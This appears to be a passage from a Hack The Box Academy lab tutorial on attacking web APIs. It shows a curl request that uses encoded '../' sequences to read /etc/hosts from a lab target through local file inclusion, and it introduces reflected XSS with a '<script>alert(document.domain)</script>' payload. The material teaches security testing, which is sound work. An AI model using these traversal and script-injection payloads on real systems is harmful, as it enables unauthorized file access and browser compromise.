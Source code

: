 ```shell
curl http://<TARGET IP>:3000/api/download
{"success":false,"error":"Input the filename via /download/<filename>"}

```

We need to specify a file, but we do not have any knowledge of stored files or their naming scheme. We can try mounting a Local File Inclusion (LFI) attack, though.

```shell
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
127.0.0.1 localhost
127.0.1.1 nix01-websvc

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

The API is indeed vulnerable to Local File Inclusion!


# Cross-Site Scripting (XSS)

* * *

Cross-Site Scripting (XSS) vulnerabilities affect web applications and APIs alike. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities. Our [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/details/103) module covers XSS in detail.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are having a better look at the API of the previous section, `http://<TARGET IP>:3000/api/download`.

Let us first interact with it through the browser by requesting the below.

![](https://academy.hackthebox.com/storage/modules/160/6.png)

`test_value` is reflected in the response.

Let us see what happens when we enter a payload such as the below (instead of _test\_value_).

```javascript
<script>alert(document.domain)</script>

```

![image](https://academy.hackthebox.com/storage/modules/160/9.png)
